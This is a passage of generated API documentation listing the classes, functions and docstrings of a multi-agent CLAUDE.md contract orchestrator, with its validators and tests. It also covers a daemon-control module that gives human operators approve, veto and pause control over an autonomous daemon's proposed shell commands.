- `log_path` (line 150) `def log_path(self)` - *Return the absolute path of the JSONL log for the active run.*

#### `documentation_agent.py`
**Path:** `skills/claude_md_orchestrator/documentation_agent.py`
**File Doc:** *Documentation agent.  The agent writes the user facing documentation for a contract. The output is first person scientific English. The agent never uses emoji or em dash. The agent never uses grand claims that the tests do not back. The output is a markdown block wrapped in a triple backtick fence, ready for copy and paste, signed by grisun0.  The agent is deterministic. The LLM enrichment is optional and runs only when the operator configures a backend. The default template captures the metadata the orchestrator already knows, so the documentation is reproducible.*

**Classes:**
- `DocResult` (line 28) `class DocResult` - *Outcome of the documentation agent.

Attributes:
    path: Absolute path of the doc file the agent wrote.
    body: The rendered markdown body inside the fence.*

**Functions:**
- `_format_inputs` (line 40) `def _format_inputs(spec)` - *Render the inputs section as a bullet list.*
- `_format_sad_paths` (line 47) `def _format_sad_paths(spec)` - *Render the sad paths section as a bullet list.*
- `_format_review` (line 54) `def _format_review(report)` - *Render the review summary as a bullet list.*
- `_render` (line 68) `def _render(contract, spec, report)` - *Render the markdown body inside the fence.*
- `_wrap` (line 118) `def _wrap(body)` - *Wrap the body in a markdown fence.*
- `run` (line 123) `def run(contract, spec, report, config)` - *Run the documentation agent for one contract.

Args:
    contract: The contract the spec implements.
    spec: The spec the documentation covers.
    report: The review report the documentation summarises.
        Pass None when the reviewer has not run yet.
    config: Active runtime configuration.
Returns:
    The result the orchestrator persists. The path points at a
    markdown file that the operator can copy and paste into the
    repository docs.*

#### `models.py`
**Path:** `skills/claude_md_orchestrator/models.py`
**File Doc:** *Data models for the claude_md_orchestrator skill.  The orchestrator is a pure data pipeline. Every agent reads its inputs from disk, mutates an immutable dataclass, and writes the result back to disk. The shape of those dataclasses is the contract between the agents.*

**Classes:**
- `Stage` (line 28) `class Stage(StrEnum)` - *Pipeline stages the orchestrator walks through in order.

Members:
    PENDING: the contract has been parsed but no agent has run.
    SDD: the spec agent has produced the spec.
    TDD: the test agent has produced the failing tests.
    BDD: the implementation agent has produced the source.
    REVIEW: the reviewer agent has produced the report.
    CICD: the cicd agent has produced the branch and the pipeline.
    DONE: every stage finished and the human signalled deploy.*
- `Severity` (line 50) `class Severity(StrEnum)` - *Severity levels the reviewer emits.

Members:
    INFO: cosmetic note. Never a blocker.
    WARN: deviation from the DoD that the boy scout can fix in a
        follow up. The reviewer reports it but lets the cycle
        continue when reviewer_strict is False.
    BLOCK: violation of the DoD. The cycle halts until the agent
        fixes the artifact.*
- `Contract` (line 68) `class Contract` - *A single actionable contract parsed from CLAUDE.md.

Attributes:
    contract_id: Stable identifier the orchestrator uses to wire
        the files together. The parser derives the value from the
        markdown section number when present.
    title: Short label the agents log with.
    rationale: One paragraph that explains why the contract exists.
    scope: Bullet list of what the contract must deliver.
    source_section: Heading path inside CLAUDE.md the parser
        extracted the contract from.
    raw_text: Verbatim markdown the parser used. Kept so the
        documentation agent can quote the source.*
- `SadPath` (line 109) `class SadPath` - *A single failure scenario a spec must cover.

Attributes:
    condition: Human readable trigger.
    expected: Expected behaviour the implementation must produce.*
- `Spec` (line 134) `class Spec` - *Spec-Driven Development output for one contract.

Attributes:
    contract_id: Contract this spec implements.
    goal: One line summary.
    trigger: Observable trigger the spec covers.
    inputs: List of inputs the implementation consumes.
    happy_path: Ordered steps the implementation must follow on
        the happy path.
    sad_paths: At least six failure scenarios.
    data_flow: Free form description of the data flow.
    observability: Free form description of how the operator
        observes success.
    out_of_scope: Bullet list of what the contract does not
        cover.
    author: Author of the spec. Defaults to the orchestrator.
    created_at: ISO 8601 timestamp.*
- `TestSuite` (line 217) `class TestSuite` - *Test-Driven Development output for one contract.

Attributes:
    contract_id: Contract this test suite covers.
    test_path: Absolute path of the pytest module.
    expected_outcome: Outcome the agent expects from pytest. The
        orchestrator checks the value before advancing. The value
        is RED for the tdd agent and GREEN for the bdd agent.
    test_names: Names of the test functions the agent produced.
    duration_seconds: Wall clock duration of the pytest run.*
- `Finding` (line 255) `class Finding` - *Single review finding.

Attributes:
    severity: Severity of the finding.
    rule: Identifier of the rule the agent broke.
    message: Human readable description.
    path: Relative path of the file the finding refers to.*
- `ReviewReport` (line 291) `class ReviewReport` - *Reviewer agent output for one contract.

Attributes:
    contract_id: Contract this report covers.
    approved: True when the reviewer has no blockers. The orchestrator
        advances to the next stage only when approved is True.
    findings: List of findings the reviewer collected.
    ruff_exit: Exit code of the ruff run.
    mypy_exit: Exit code of the mypy run.
    bandit_exit: Exit code of the bandit run.
    pytest_exit: Exit code of the pytest run.
    summary: Short text the operator reads first.*
- `CicleState` (line 348) `class CicleState` - *State of a single contract through the pipeline.

Attributes:
    contract: The contract the cycle processes.
    stage: The stage the contract is currently in.
    spec_path: Absolute path of the spec file.
    test_path: Absolute path of the test file.
    src_path: Absolute path of the source file.
    review_path: Absolute path of the review report.
    doc_path: Absolute path of the documentation file.
    branch_name: Name of the feature branch the cicd agent cut.
    pipeline_path: Absolute path of the CI pipeline file.
    pr_body_path: Absolute path of the PR body file.
    approved: True when the reviewer approved the contract.
    deployed: True when the human signalled deploy.
    started_at: ISO 8601 timestamp when the cycle started.
    updated_at: ISO 8601 timestamp when the last stage finished.*
- `CicleStateFile` (line 424) `class CicleStateFile` - *Top level state the orchestrator persists to disk.

Attributes:
    run_id: Identifier of the run. Defaults to the run directory
        name so a developer can tell runs apart at a glance.
    started_at: ISO 8601 timestamp when the run started.
    updated_at: ISO 8601 timestamp when the last transition ran.
    contracts: Per contract state keyed by contract_id.*

**Functions:**
- `_now_iso` (line 19) `def _now_iso()` - *Return the current UTC time as an ISO 8601 string.

The helper centralises timestamp formatting so the JSONL log stays
consistent across agents and runs.*
- `write_jsonl` (line 480) `def write_jsonl(path, event)` - *Append a single JSONL event to the log file.

Args:
    path: Absolute path of the log file.
    event: JSON friendly dictionary.*

**Methods:**
- `to_dict` (line 91) `def to_dict(self)` - *Return a JSON friendly view of the contract.*
- `from_dict` (line 96) `def from_dict(cls, data)` - *Build a Contract from a JSON friendly dictionary.*
- `to_dict` (line 120) `def to_dict(self)` - *Return a JSON friendly view of the sad path.*
- `from_dict` (line 125) `def from_dict(cls, data)` - *Build a SadPath from a JSON friendly dictionary.*
- `to_dict` (line 166) `def to_dict(self)` - *Return a JSON friendly view of the spec.*
- `from_dict` (line 173) `def from_dict(cls, data)` - *Build a Spec from a JSON friendly dictionary.*
- `validate` (line 189) `def validate(self, min_sad_paths)` - *Return the list of DoD violations the spec carries.

Args:
    min_sad_paths: Minimum number of sad paths the spec must
        document.
Returns:
    A list of human readable violation messages. Empty list
    means the spec is compliant.*
- `to_dict` (line 236) `def to_dict(self)` - *Return a JSON friendly view of the test suite.*
- `from_dict` (line 243) `def from_dict(cls, data)` - *Build a TestSuite from a JSON friendly dictionary.*
- `to_dict` (line 270) `def to_dict(self)` - *Return a JSON friendly view of the finding.*
- `from_dict` (line 280) `def from_dict(cls, data)` - *Build a Finding from a JSON friendly dictionary.*
- `blockers` (line 315) `def blockers(self)` - *Return the list of blocker findings.*
- `to_dict` (line 319) `def to_dict(self)` - *Return a JSON friendly view of the report.*
- `from_dict` (line 333) `def from_dict(cls, data)` - *Build a ReviewReport from a JSON friendly dictionary.*
- `to_dict` (line 383) `def to_dict(self)` - *Return a JSON friendly view of the state.*
- `from_dict` (line 402) `def from_dict(cls, data)` - *Build a CicleState from a JSON friendly dictionary.*
- `to_dict` (line 440) `def to_dict(self)` - *Return a JSON friendly view of the state file.*
- `from_dict` (line 450) `def from_dict(cls, data)` - *Build a CicleStateFile from a JSON friendly dictionary.*
- `save` (line 459) `def save(self, path)` - *Persist the state to disk as pretty JSON.*
- `load` (line 467) `def load(cls, path)` - *Read the state from disk.

Args:
    path: Absolute path of the state file.
Returns:
    The loaded state. Empty when the file does not exist.*

#### `orchestrator.py`
**Path:** `skills/claude_md_orchestrator/orchestrator.py`
**File Doc:** *Orchestrator that wires the agents into a deterministic pipeline.  The orchestrator walks every contract through the same six stages: spec, test red, implementation green, review, cicd, and done. The state is persisted to disk after every stage so a crash resumes the cycle from the last green stage. The orchestrator never blocks on deploy. The deploy gate stays closed by design.*

**Classes:**
- `CycleSummary` (line 34) `class CycleSummary` - *Top level result of running the orchestrator.

Attributes:
    run_id: Identifier of the run.
    contracts: Per contract state after the cycle.
    halted_at: Identifier of the contract the orchestrator halted
        on. None when every contract reached the DONE stage.
    halt_reason: Free form text the operator reads to understand
        why the orchestrator halted.*

**Functions:**
- `_banner` (line 52) `def _banner(message, config)` - *Print a stage banner to stderr when verbose mode is on.*
- `_halt` (line 59) `def _halt(summary, contract_id, reason)` - *Stamp the summary with a halt reason and return it.*
- `_persist` (line 66) `def _persist(state, config)` - *Persist the run state to disk and append a JSONL event.*
- `_load_state` (line 84) `def _load_state(config)` - *Read the persisted state and return it.*
- `_seed_state` (line 89) `def _seed_state(contracts, state)` - *Add new contracts to the state without overwriting existing ones.*
- `_run_spec` (line 97) `def _run_spec(state, config)` - *Run the spec agent and update the state.*
- `_run_test` (line 110) `def _run_test(state, config)` - *Run the test agent and update the state.*
- `_run_implementation` (line 125) `def _run_implementation(state, config)` - *Run the implementation agent and update the state.*
- `_run_review` (line 146) `def _run_review(state, config)` - *Run the reviewer and update the state.*
- `_run_documentation` (line 158) `def _run_documentation(state, config)` - *Run the documentation agent and update the state.*
- `_run_scout` (line 174) `def _run_scout(state, config)` - *Run the boy scout pass and update the state.*
- `_run_cicd` (line 182) `def _run_cicd(state, config)` - *Run the cicd agent and update the state.*
- `_load_spec` (line 217) `def _load_spec(path)` - *Load a spec file as YAML and return a Spec dataclass.

Args:
    path: Absolute path of the spec file. The file is expected
        to be valid YAML that maps to the Spec dataclass shape.
Returns:
    The loaded Spec.*
- `_advance` (line 234) `def _advance(state, contract_id, config, options)` - *Walk one contract through every stage.

Args:
    state: Run state the orchestrator mutates.
    contract_id: Identifier of the contract the stage runs for.
    config: Active runtime configuration.
    options: CLI options the orchestrator forwards to the cicd
        agent.*
- `run` (line 275) `def run(config, options)` - *Run the orchestrator for the current run directory.

Args:
    config: Active runtime configuration.
    options: CLI options the orchestrator forwards to the cicd
        agent.
Returns:
    The cycle summary the CLI prints.*
- `_print_summary` (line 301) `def _print_summary(summary)` - *Print the cycle summary to stdout.*
- `summary_to_dict` (line 306) `def summary_to_dict(summary)` - *Return a JSON friendly view of the summary.*
- `_build_parser` (line 324) `def _build_parser()` - *Build the CLI argument parser and return it.*
- `_load_seed_contracts` (line 365) `def _load_seed_contracts(args, options)` - *Build the seeded contracts the CLI requested.

Args:
    args: Parsed CLI arguments.
    options: Options dict the orchestrator passes to the agents.
Returns:
    The list of contracts the operator asked for. The function
    combines the explicit --seed ids and the --contract-file
    content the operator supplied.*
- `main` (line 393) `def main(argv)` - *Run the orchestrator CLI and return the process exit code.*

#### `parser.py`
**Path:** `skills/claude_md_orchestrator/parser.py`
**File Doc:** *Parser that turns a CLAUDE.md into actionable contracts.  The parser is deterministic. It does not call any LLM. It walks the markdown as a tree of sections and lifts every actionable bullet that lives under a heading that carries a flag. The flag is the keyword CONTRACT in the heading text. The orchestrator does not assume the markdown is well formed. The parser records every malformed input and returns a structured error alongside the partial result.  The parser also produces the rationale for each contract by combining the parent section text with the first paragraph of the body. The documentation agent can quote the source verbatim.*

**Classes:**
- `_Section` (line 34) `class _Section` - *Internal node that represents a heading and its body.

Attributes:
    depth: Heading level. One is the document title.
    title: Heading text.
    body: Concatenated text of every paragraph that belongs to the
        section.
    children: Subsection nodes. The parser walks the tree in depth
        first order.*

**Functions:**
- `_derive_contract_id` (line 56) `def _derive_contract_id(title, fallback_index)` - *Return a stable identifier for a contract heading.

The parser prefers an explicit id in the heading text. The id must
match the C-000 shape. When the heading does not carry an explicit
id, the parser derives a slug from the heading text and falls back
to a numeric index so two headings with the same slug never share
an identifier.*
- `_strip_contract_marker` (line 73) `def _strip_contract_marker(title)` - *Remove the CONTRACT keyword and any explicit id from the title.

The marker is metadata. The orchestrator uses the cleaned title
for human facing log lines.*
- `_walk_sections` (line 85) `def _walk_sections(lines)` - *Return the document section tree built from the markdown lines.

The walker keeps a stack of open sections. When a new heading
arrives, the walker closes the deepest section whose depth is
greater or equal and attaches the new section as a child of the
previous top.*
- `_collect_bullets` (line 123) `def _collect_bullets(text)` - *Return the bullet items inside a section body.

Args:
    text: Section body.
Returns:
    A list of trimmed bullet strings. Empty list when the body has
    no bullet list.*
- `_collect_paragraphs` (line 141) `def _collect_paragraphs(text)` - *Return the paragraphs inside a section body.*
- `_is_actionable` (line 146) `def _is_actionable(heading)` - *Return True when a section qualifies as a contract.

The parser treats a section as a contract when the heading carries
the CONTRACT keyword or the body declares an explicit outcomes
list. The marker is case insensitive.*
- `_flatten_actionable` (line 159) `def _flatten_actionable(root)` - *Yield every actionable section in depth first order.*
- `parse_claude_md` (line 167) `def parse_claude_md(path)` - *Parse a CLAUDE.md file and return the list of contracts.

Args:
    path: Absolute path of the markdown file.
Returns:
    A list of Contract objects. Empty list when the file does not
    exist or contains no actionable section.
Raises:
    FileNotFoundError: when the path is missing.*
- `_coerce_seed_contract` (line 205) `def _coerce_seed_contract(seed)` - *Build a Contract from a programmatic seed dictionary.

Tests and the CLI use the helper to inject a contract without
parsing a markdown file. The seed must carry the keys contract_id,
title, rationale, and scope. scope is a newline separated bullet
list.*
- `load_contracts` (line 225) `def load_contracts(config, seeds)` - *Return the contracts the orchestrator should process.

Args:
    config: Active runtime configuration.
    seeds: Optional list of seed contracts the caller wants to mix
        in. The orchestrator uses the seeds when the markdown
        parser returns zero contracts so the operator can drive
        the cycle from a focused file.
Returns:
    The merged list of contracts. The list is deduplicated by
    contract_id while preserving the original order.*
- `flush_body` (line 97) `def flush_body()`

**Methods:**
- `__post_init__` (line 51) `def __post_init__(self)`

#### `reviewer_agent.py`
**Path:** `skills/claude_md_orchestrator/reviewer_agent.py`
**File Doc:** *Code Reviewer and Quality Assurance agent.  The agent runs the static analyzers the LazyOwn repository already configures. The agent collects the DoD findings every analyzer emits plus the findings the in house validators emit. The agent approves the contract when the report carries zero blockers. The orchestrator advances only when the report is approved.  The agent never blocks on warnings when the strict flag is False. The agent always blocks on a non zero exit code from any analyzer.*

**Classes:**
- `AnalyzerResult` (line 30) `class AnalyzerResult` - *Outcome of running one external analyzer.

Attributes:
    tool: Name of the analyzer.
    exit_code: Return code of the analyzer.
    stdout: Captured stdout.
    stderr: Captured stderr.*

**Functions:**
- `_run` (line 46) `def _run(cmd, cwd)` - *Run an external analyzer and return the captured output.

Args:
    cmd: Command line arguments.
    cwd: Working directory the analyzer uses.
Returns:
    The analyzer result. The function never raises. A missing
    tool is recorded with exit code 127 and an explanatory
    stderr line so the reviewer can mark the finding as a warn.*
- `_resolve_targets` (line 72) `def _resolve_targets(state, config)` - *Collect the artifacts the reviewer must inspect.

Args:
    state: Per contract state the reviewer uses to find files.
    config: Active runtime configuration.
Returns:
    A list of absolute paths. Empty list when nothing is present.*
- `_parse_tool_findings` (line 88) `def _parse_tool_findings(result, path_prefix)` - *Translate an analyzer output into a list of findings.

Args:
    result: The analyzer result to translate.
    path_prefix: Prefix the reviewer prepends to every finding
        path.
Returns:
    The findings. The translation is best effort. The reviewer
    records one finding per non empty line of stderr. The exit
    code only escalates a finding to BLOCK when the analyzer
    reports at least one line.*
- `_run_ruff` (line 121) `def _run_ruff(targets, cwd)` - *Run ruff when the binary is available.*
- `_run_mypy` (line 134) `def _run_mypy(targets, cwd)` - *Run mypy when the binary is available.*
- `_run_bandit` (line 147) `def _run_bandit(targets, cwd)` - *Run bandit when the binary is available.*
- `_run_pytest` (line 160) `def _run_pytest(targets, cwd)` - *Run pytest against the test module to confirm green.*
- `run` (line 171) `def run(state, config)` - *Run the reviewer for one contract.

Args:
    state: Per contract state the reviewer reads the artifacts
        from.
    config: Active runtime configuration.
Returns:
    The structured review report. The report carries the
    analyzer exit codes, the in house DoD findings, and a
    boolean approved flag the orchestrator consumes.*
- `write_report` (line 225) `def write_report(report, config)` - *Persist the report as JSON inside the run review directory.*

#### `sdd_agent.py`
**Path:** `skills/claude_md_orchestrator/sdd_agent.py`
**File Doc:** *Spec-Driven Development agent.  The agent lifts a Contract into a Spec. The agent is deterministic so the orchestrator can replay the same contract and produce the same spec. The agent uses the LazyOwn LLM factory when a backend identifier is configured in payload.json. When the backend is missing or fails, the agent falls back to a structured template that the operator can review and amend.  The agent writes the spec as YAML. YAML is the lingua franca for the infrastructure that consumes the spec, including the test agent and the CI pipeline.*

**Classes:**
- `SddResult` (line 40) `class SddResult` - *Outcome of running the spec agent.

Attributes:
    spec: The spec the agent produced.
    path: Absolute path of the YAML file the agent wrote.
    findings: DoD findings the agent collected while it wrote the
        spec. The orchestrator halts when the list carries a
        blocker.*

**Functions:**
- `_coerce_scope` (line 56) `def _coerce_scope(scope)` - *Split the contract scope into inputs and a baseline sad path set.

The parser lifts bullets from the markdown body. The agent does not
know whether a bullet is an input, an outcome, or a sad path. The
helper uses a simple heuristic: a bullet that starts with a verb in
imperative form becomes a happy path step. A bullet that contains
the words fail, error, or refuse becomes a sad path.*
- `_compose_spec` (line 81) `def _compose_spec(contract, min_sad_paths)` - *Build a deterministic Spec for a Contract.

Args:
    contract: The contract the spec implements.
    min_sad_paths: Minimum number of sad paths the spec must carry.
Returns:
    The composed spec. The agent never returns an empty spec.*
- `_render_yaml` (line 130) `def _render_yaml(spec)` - *Render the spec as YAML and return the rendered text.*
- `_ask_llm` (line 148) `def _ask_llm(contract, backend)` - *Ask the LazyOwn LLM factory to enrich the spec.

Args:
    contract: The contract the agent is composing.
    backend: Identifier of the LLM backend.
Returns:
    The enriched spec when the backend answered with a JSON object
    that matches the spec shape. None when the backend is not
    configured or returned an unparsable payload.*
- `run` (line 204) `def run(contract, config)` - *Run the spec agent for one contract.

Args:
    contract: The contract the spec implements.
    config: Active runtime configuration.
Returns:
    The result the orchestrator persists and validates.*

#### `tdd_agent.py`
**Path:** `skills/claude_md_orchestrator/tdd_agent.py`
**File Doc:** *Test-Driven Development agent.  The agent lifts a Spec into a pytest module. The cycle halts at red. The agent will not advance to the next stage until pytest reports a failure for the new tests. The agent never writes a passing test. The agent uses the BDD Given When Then structure inside the test function so the test name reads as a behaviour.  The agent writes the test file with a single public function per sad path and one extra function for the happy path. The test functions import the implementation module the bdd agent will produce. The implementation module does not exist when the tdd agent runs. The pytest collection step must fail with an ImportError or an assertion. The orchestrator counts the ImportError as a red outcome.*

**Classes:**
- `TddResult` (line 90) `class TddResult` - *Outcome of running the test agent.

Attributes:
    suite: The TestSuite the agent produced.
    findings: DoD findings the agent collected. The orchestrator
        halts on a blocker.
    red: True when pytest reported a failure for the new tests.*

**Functions:**
- `_slug` (line 79) `def _slug(value)` - *Return a snake case slug derived from the value.*
- `_module_name` (line 105) `def _module_name(contract)` - *Return the python module name the implementation will use.*
- `_compose_tests` (line 110) `def _compose_tests(spec, contract)` - *Render the pytest module body for the contract.

Args:
    spec: The spec the tests cover.
    contract: The contract the spec implements.
Returns:
    The python source of the test module.*
- `_run_pytest` (line 154) `def _run_pytest(test_path, cwd)` - *Run pytest and return the exit code plus the wall clock duration.

Args:
    test_path: Absolute path of the test module to execute.
    cwd: Working directory the agent uses for the run.
Returns:
    A tuple of (exit_code, duration_seconds).*
- `run` (line 175) `def run(contract, spec, config)` - *Run the test agent for one contract.

Args:
    contract: The contract the spec implements.
    spec: The spec the tests cover.
    config: Active runtime configuration.
Returns:
    The result the orchestrator persists. The red flag is True
    when pytest reported a failure for the new tests. The
    orchestrator advances only when red is True.*
- `read_test_source` (line 228) `def read_test_source(test_path)` - *Return the test source for inspection.

Args:
    test_path: Absolute path of the test module.
Returns:
    The test source as a string. None when the file does not
    exist.*

#### `conftest.py`
**Path:** `skills/claude_md_orchestrator/tests/conftest.py`
**File Doc:** *Pytest bootstrap for the claude_md_orchestrator test suite.  The test suite lives next to the package, not inside the project test tree. The conftest inserts the parent skills directory into sys.path so the import resolver finds the package under the project root.*

*No symbols extracted*

#### `test_orchestrator.py`
**Path:** `skills/claude_md_orchestrator/tests/test_orchestrator.py`
**File Doc:** *Unit tests for the claude_md_orchestrator package.  The tests pin the behavior of every agent. The tests use a temporary run directory so the suite never touches the real run state. The tests run the orchestrator end to end against a seeded contract and verify that the cycle walks the six stages in order, that the spec satisfies the DoD, that the tests start red, that the implementation makes the tests green, and that the reviewer approves the artifacts.*

**Functions:**
- `tmp_run_dir` (line 46) `def tmp_run_dir(tmp_path)` - *Return a fresh run directory the test can mutate freely.*
- `config` (line 54) `def config(tmp_run_dir, tmp_path)` - *Return a Config that points at the temp run directory.*
- `test_parser_extracts_contract` (line 78) `def test_parser_extracts_contract(config)` - *The parser returns the contract the markdown declares.*
- `test_sdd_agent_writes_spec` (line 86) `def test_sdd_agent_writes_spec(config)` - *The spec agent writes a YAML spec with at least six sad paths.*
- `test_tdd_agent_lands_red` (line 102) `def test_tdd_agent_lands_red(config)` - *The tdd agent lands the test module and the red outcome holds.*
- `test_bdd_agent_lands_green` (line 116) `def test_bdd_agent_lands_green(config)` - *The bdd agent makes the test module pass.*
- `test_dod_validators_block_emoji` (line 131) `def test_dod_validators_block_emoji()` - *The DoD validator flags emoji in source code.*
- `test_dod_validators_block_inline_comments` (line 138) `def test_dod_validators_block_inline_comments()` - *The DoD validator flags inline comments in source code.*
- `test_dod_validators_block_todo_markers` (line 145) `def test_dod_validators_block_todo_markers()` - *The DoD validator flags TODO and FIXME markers.*
- `test_dod_validators_block_absolute_paths` (line 152) `def test_dod_validators_block_absolute_paths()` - *The DoD validator flags absolute paths the developer typed by hand.*
- `test_dod_validators_require_docstrings` (line 159) `def test_dod_validators_require_docstrings()` - *The DoD validator flags public functions without a docstring.*
- `test_orchestrator_full_cycle` (line 166) `def test_orchestrator_full_cycle(config)` - *The orchestrator walks the full cycle and reaches the done stage.*
- `test_orchestrator_blocks_on_sad_path_shortage` (line 188) `def test_orchestrator_blocks_on_sad_path_shortage(config)` - *The orchestrator pads the spec to satisfy the minimum sad path count.

The spec agent always emits at least max_sad_paths sad paths. The
test sets a low floor and confirms the cycle finishes. The
orchestrator must never block on a count shortage because the
sdd agent guarantees the contract.*
- `test_orchestrator_blocks_on_missing_contracts` (line 204) `def test_orchestrator_blocks_on_missing_contracts(tmp_run_dir, tmp_path)` - *The orchestrator halts when the parser returns zero contracts.*
- `test_documentation_agent_emits_fenced_markdown` (line 221) `def test_documentation_agent_emits_fenced_markdown(config)` - *The documentation agent emits a fenced markdown block.*
- `test_boy_scout_returns_report` (line 237) `def test_boy_scout_returns_report(config)` - *The boy scout returns a structured report with no findings for clean code.*
- `test_cicd_agent_writes_pipeline` (line 260) `def test_cicd_agent_writes_pipeline(config)` - *The cicd agent writes a pipeline and a PR body.*
- `test_models_spec_round_trip` (line 294) `def test_models_spec_round_trip()` - *The spec dataclass survives a JSON round trip.*
- `test_cicd_deploy_gate_checks_secret` (line 310) `def test_cicd_deploy_gate_checks_secret(config)` - *The deploy gate ships only on the exact shared secret.*
- `test_cicd_deploy_gate_is_timing_safe` (line 332) `def test_cicd_deploy_gate_is_timing_safe()` - *The deploy gate compares secrets with hmac.compare_digest.*

#### `validators.py`
**Path:** `skills/claude_md_orchestrator/validators.py`
**File Doc:** *DoD validators for every artifact the orchestrator produces.  The validators are the single source of truth for the Definition of Done. Every agent calls them before it writes a result to disk. The reviewer agent cross checks the same set so the cycle halts on a real violation rather than on an opinion.*

**Classes:**
- `CheckResult` (line 77) `class CheckResult` - *Outcome of running one validator over a piece of content.

Attributes:
    findings: Findings the validator raised. Empty list means the
        artifact is compliant.*

**Functions:**
- `find_block_comments` (line 97) `def find_block_comments(source)` - *Return the start and end line of every block comment in source.

Args:
    source: Python source code.
Returns:
    A list of tuples. Each tuple carries the start line and the
    end line of a block comment.*
- `find_inline_comments` (line 119) `def find_inline_comments(source)` - *Return the line numbers of every inline comment in source.

Inline comments are tokens that start with the COMMENT token type.
The helper walks the token stream and ignores shebang lines.*
- `check_no_comments` (line 136) `def check_no_comments(source, path)` - *Return a finding for every comment in the source code.

Args:
    source: Python source code.
    path: Path the source belongs to. Used in the finding.
Returns:
    Findings. Empty list when the source has no comments.*
- `check_no_emoji` (line 167) `def check_no_emoji(content, path)` - *Return a finding for every emoji the content carries.

Args:
    content: Text to inspect.
    path: Path the content belongs to. Used in the finding.
Returns:
    Findings. Empty list when the content has no emoji.*
- `check_no_forbidden_markers` (line 189) `def check_no_forbidden_markers(content, path)` - *Return a finding for every TODO, FIXME, XXX, or HACK marker.*
- `check_english_only` (line 206) `def check_english_only(source, path)` - *Return a finding for every Spanish hint the source carries.

The validator is conservative. It scans identifiers, docstrings,
and string literals. False positives are possible. The reviewer
treats every hit as a warning and the operator can mark it as a
non blocker through the strict flag.*
- `check_docstrings` (line 230) `def check_docstrings(source, path)` - *Return a finding for every public function or class without a docstring.

The validator parses the source with ast and walks the tree. A
public name is a name that does not start with an underscore. A
missing docstring is a blocker.*
- `check_no_hardcoded_paths_or_ips` (line 271) `def check_no_hardcoded_paths_or_ips(source, path)` - *Return a finding for every absolute path or IP literal.

Args:
    source: Python source code.
    path: Path the source belongs to.
Returns:
    Findings. Empty list when the source has no hardcoded literal.*
- `check_magic_numbers` (line 305) `def check_magic_numbers(source, path, allow)` - *Return a finding for every numeric literal that is not in the allow list.

Args:
    source: Python source code.
    path: Path the source belongs to.
    allow: Iterable of literals that are explicitly allowed.
Returns:
    Findings. Empty list when the source has no magic number.*
- `check_source` (line 340) `def check_source(source, path, allow_numbers)` - *Run every source level DoD check and return the findings.*
- `check_markdown` (line 353) `def check_markdown(content, path)` - *Run every markdown level DoD check and return the findings.*
- `check_spec` (line 362) `def check_spec(spec, min_sad_paths)` - *Run the spec level DoD check and return the findings.*

**Methods:**
- `passed` (line 88) `def passed(self)` - *Return True when the result has no findings.*
- `blocks` (line 92) `def blocks(self)` - *Return the blocker findings only.*

#### `daemon_control.py`
**Path:** `skills/daemon_control.py`
**File Doc:** *Operator steering layer for the LazyOwn autonomous daemon.  The daemon (``skills/autonomous_daemon.py``) reads the control state written here before every command execution. The CLI (``do_daemon_*``) and MCP (``lazyown_daemon_*``) write the same state. This module owns:  * The data model (:class:`ControlState`, :class:`PendingAction`). * Atomic persistence to ``sessions/daemon_control.json``. * The approval-gate state machine and a blocking wait helper.  All public methods are safe for concurrent use across processes because every write goes through ``tempfile`` + ``os.replace`` so readers either see the previous file or the new one but never a truncated file.*

**Classes:**
- `PendingAction` (line 49) `class PendingAction` - *A single command awaiting operator approval.

Args:
    action_id: Unique identifier matched by the operator when
        approving or vetoing.
    command: Shell command proposed by the daemon.
    reason: Selector-supplied rationale forwarded to the operator.
    target: Active target host the command will run against.
    proposed_at: Epoch seconds when the action was registered.
    ttl_seconds: How long the action waits before expiring.
    decision: One of :data:`DECISION_PENDING`,
        :data:`DECISION_APPROVED`, :data:`DECISION_VETOED`,
        :data:`DECISION_EXPIRED`.
    decided_at: Epoch seconds when the decision was recorded
        (``0.0`` while pending).
    operator: Identifier of the operator who decided (empty when
        expired).*
- `ControlState` (line 88) `class ControlState` - *Steering state shared between operator surfaces and the daemon.

Args:
    mode: One of :data:`MODE_AUTO`, :data:`MODE_APPROVAL`,
        :data:`MODE_PAUSED`. Default is auto, which preserves the
        historical daemon behaviour.
    vetoed_commands: First-token names the daemon must avoid.
    focus_targets: When non-empty, the daemon only executes
        objectives whose target appears in this list.
    pending: Active approval request, when ``mode == approval`` and
        the daemon has proposed a command.
    updated_at: Epoch seconds of the last write — populated by
        :meth:`DaemonControl.save`.*
- `DaemonControl` (line 162) `class DaemonControl` - *Atomic read/write facade for ``sessions/daemon_control.json``.

All mutations write to a temp file then ``os.replace`` for
atomicity so concurrent readers (daemon + CLI + MCP) never observe
partial JSON. The instance is also safe to share inside one
process: every write is serialised by an internal lock.*

**Functions:**
- `_first_token` (line 154) `def _first_token(command)` - *Return the first whitespace-separated token of ``command``.*
- `wait_for_decision` (line 394) `def wait_for_decision(control, action)` - *Block until the operator decides or the TTL expires.

The poll interval and clock are injectable so unit tests can drive
the state machine deterministically without sleeping.

Args:
    control: :class:`DaemonControl` instance bound to the same
        ``sessions/`` directory the operator surfaces use.
    action: The :class:`PendingAction` previously returned by
        :meth:`DaemonControl.propose`.
    poll_interval: Seconds between state polls.
    sleep_fn: Replaceable ``time.sleep`` for tests.
    now_fn: Replaceable ``time.time`` for tests.

Returns:
    The final :class:`PendingAction` with ``decision`` set to one
    of :data:`DECISION_APPROVED`, :data:`DECISION_VETOED`, or
    :data:`DECISION_EXPIRED`.*
- `wait_until_unpaused` (line 445) `def wait_until_unpaused(control)` - *Block while the daemon is paused, returning when it resumes.

Args:
    control: :class:`DaemonControl` instance.
    poll_interval: Seconds between mode checks.
    sleep_fn: Replaceable ``time.sleep`` for tests.
    max_wait_seconds: Optional upper bound. ``None`` waits forever.
    now_fn: Replaceable ``time.time`` for tests.

Returns:
    ``True`` when the daemon resumed; ``False`` when
    ``max_wait_seconds`` elapsed without a resume signal.*

**Methods:**
- `is_expired` (line 79) `def is_expired(self, now)` - *Return ``True`` when a still-pending action has exceeded its TTL.*
- `to_dict` (line 110) `def to_dict(self)` - *Serialise the state to a plain JSON-ready dict.*
- `from_dict` (line 121) `def from_dict(cls, data)` - *Build a state from JSON data, sanitising malformed input.*
- `__init__` (line 171) `def __init__(self, sessions_dir)` - *Pin the control file to ``<sessions_dir>/daemon_control.json``.

Args:
    sessions_dir: Absolute or relative path to the LazyOwn
        ``sessions/`` directory. The directory is created on
        the first write if it does not yet exist.*
- `path` (line 184) `def path(self)` - *Absolute path of the control file on disk.*
- `load` (line 188) `def load(self)` - *Return the current state or defaults when the file is missing.*
- `save` (line 201) `def save(self, state)` - *Persist ``state`` atomically.

